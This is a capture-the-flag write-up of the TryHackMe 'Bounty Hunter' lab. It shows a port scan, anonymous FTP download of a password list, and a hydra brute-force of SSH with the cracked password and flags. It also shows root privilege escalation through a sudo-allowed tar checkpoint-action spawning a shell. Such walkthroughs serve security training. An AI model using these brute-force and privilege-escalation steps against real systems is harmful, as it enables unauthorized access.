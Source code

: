 ```yaml
---
title: 'TryHackMe: Bounty Hunter'
created: '2020-09-09T21:22:42.037Z'
modified: '2020-09-09T22:10:02.482Z'
---
```


# TryHackMe: Bounty Hunter

## Task 1 ###

### 1. Deploy ### 
`-`
### 2. Find all open ports on machine ###
`nmap -A -p- target.thm -v` 
 ```
Scanning target.thm (10.10.237.73) [65535 ports]
    Discovered open port 22/tcp on 10.10.237.73
    Discovered open port 21/tcp on 10.10.237.73
    Discovered open port 80/tcp on 10.10.237.73
```
Ports are:
- `22, SSH`
- `21, FTP`
- `80, HTTP`

### 3. Who wrote the task list? ###

Navigate to host `10.10.237.73`.

- Blurb about 4 characters:
    - `Spike`
    - `Jet`
    - `Ed`
    - `Faye`

#### Test FTP for anon access ####
`ftp 10.10.237.73`, use username `Anonymous`, with a blank password.
##### Login works #####
```
kali@kali:~/Desktop/TryHackMe/cowboyhacker$ ftp 10.10.237.73
Connected to 10.10.237.73.
220 (vsFTPd 3.0.3)
Name (10.10.237.73:kali): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

##### Check files in dir, and download them #####
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.06 secs (6.6875 kB/s)
ftp> get task.txt 
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.06 secs (1.1806 kB/s)

```
##### Read stolen files #####
`locks.txt` (seems like a list of passwords...)
```
kali@kali:~/Desktop/TryHackMe/cowboyhacker$ cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
`cat task.txt` (the task list for the _flag_)
```
kali@kali:~/Desktop/TryHackMe/cowboyhacker$ cat task.txt  
1.) Protect Vicious.  
2.) Plan for Red Eye pickup on the moon.    
-lin                
```
### 4. What service can you bruteforce with the text file found? ###

There were only 3 ports open on the scan, of which they're used for the either FTP, SSH, HTTP. We could brute FTP, but we'd have less capability; HTTP, not really brutable with what we've uncovered so far; so SSH, seems like the best option.

### 5. What is the users password?

Lets assume: 
Username: `lin`
Password file: `locks.txt`

And bruteforce with `hydra -l lin -P ~/Desktop/TryHackMe/cowboyhacker/locks.txt ssh://target.thm`

```
kali@kali:~/Desktop/TryHackMe/cowboyhacker$ hydra -l lin -P ~/Desktop/TryHackMe/cowboyhacker/locks.txt ssh://target.thm
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).                           
                                                                                                                                                                                                                                          
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-09 17:51:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://target.thm:22/
[22][ssh] host: target.thm   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-09 17:51:35

```

Revealing the password is `RedDr4gonSynd1cat3`.

### 6. user.txt

Lets `ssh` into the box with our cracked credentials `lin:RedDr4gonSynd1cat3`.

`ssh lin@target.thm`

```
kali@kali:~/Desktop/TryHackMe/cowboyhacker$ ssh lin@10.10.237.73
The authenticity of host '10.10.237.73 (10.10.237.73)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.237.73' (ECDSA) to the list of known hosts.
lin@10.10.237.73's password: 
Permission denied, please try again.
lin@10.10.237.73's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ 

```

Then we need to find and return `user.txt`.

```
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}
```

### 7. root.txt
Lets assume the `root.txt` is in the `/root` directory and `ls` it to see if we can see anything there.

```
lin@bountyhacker:~/Desktop$ ls /root
ls: cannot open directory '/root': Permission denied
```

We don't have permission, so need to find a privesc. Lets start with using `sudo -l` to identify any root priviledged binaries we may have assigned.

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Output shows that we can exploit `/bin/tar` as `root`. On reading the `/bin/tar` manual with `/bin/tar --help`. We can see that we can exploit `--checkpoint[=NUMBER]` and `--checkpoint-action=[ACTION]`. Causing `tar` to fire an action on every checkpoint.

Lets 'create' a tar compressed archive. We'll use `/dev/null` for input and output incase of lacking permissions..

`sudo tar -c /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root

```

Successfully achieved a root shell. Lets try find that last flag.

```
# ls /root
root.txt
# cat /root/root.txt
THM{80UN7Y_h4cK3r}
```






